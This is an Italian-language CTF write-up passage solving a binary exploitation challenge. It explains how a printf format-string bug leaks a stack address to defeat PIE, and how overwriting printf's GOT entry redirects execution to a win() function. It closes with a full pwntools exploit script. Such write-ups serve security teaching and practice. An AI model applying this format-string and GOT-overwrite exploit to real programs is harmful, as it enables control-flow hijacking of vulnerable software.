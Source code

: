 Poiché `printf` è chiamata senza format string, possiamo inviare i nostri specifier. Ad esempio, inviando `%p` verrà stampato un indirizzo dello stack.
Se inviamo un payload come `%p.%p.%p.%p.%p.%p.%p.%p.`, il programma stamperà diversi indirizzi dello stack in ordine, separati da punti.
Questo aiuta a visualizzare il layout dello stack e a trovare quale offset corrisponde a valori interessanti (come il return address o i function pointer).
Puoi aumentare il numero di `%p` per stampare più valori, o usare GDB per ispezionare lo stack e contare quanti `%p` servono per raggiungere un valore specifico.

Sperimentando, scopriamo che `%50$p` leaka l’indirizzo di `main`.
Questo ci permette di calcolare la base dell’eseguibile (PIE).

Poi usiamo la funzione di write-anywhere del programma per sovrascrivere la voce **GOT** di `printf` con l’indirizzo di `win()`.
In questo modo, quando `printf` verrà chiamata di nuovo, in realtà salterà a `win()` e ci darà la flag.

#### Script di exploit

```python
from pwn import *

elf = context.binary = ELF('./challenge')
context.terminal = []

if args.REMOTE:
    p = remote('ctf.ac.upt.ro', 9777)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript='''
        b main
        c
    ''')
else:
    p = elf.process()

# Leak dell’indirizzo di main tramite la format string vulnerability
p.sendlineafter(b'?\n', b'%50$p')
p.recvuntil(b', ')
main = int(p.recvline().strip(), 16)
print(f'Main address: {hex(main)}')

# Calcolo della base PIE
elf.address = main - elf.symbols.main
print(f'Base address: {hex(elf.address)}')

# Usa la funzione del programma per sovrascrivere printf@GOT con win()
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', hex(elf.got.printf).encode())
p.sendlineafter(b': ', hex(elf.symbols.win).encode())

# Ottieni la flag!
p.interactive()
```
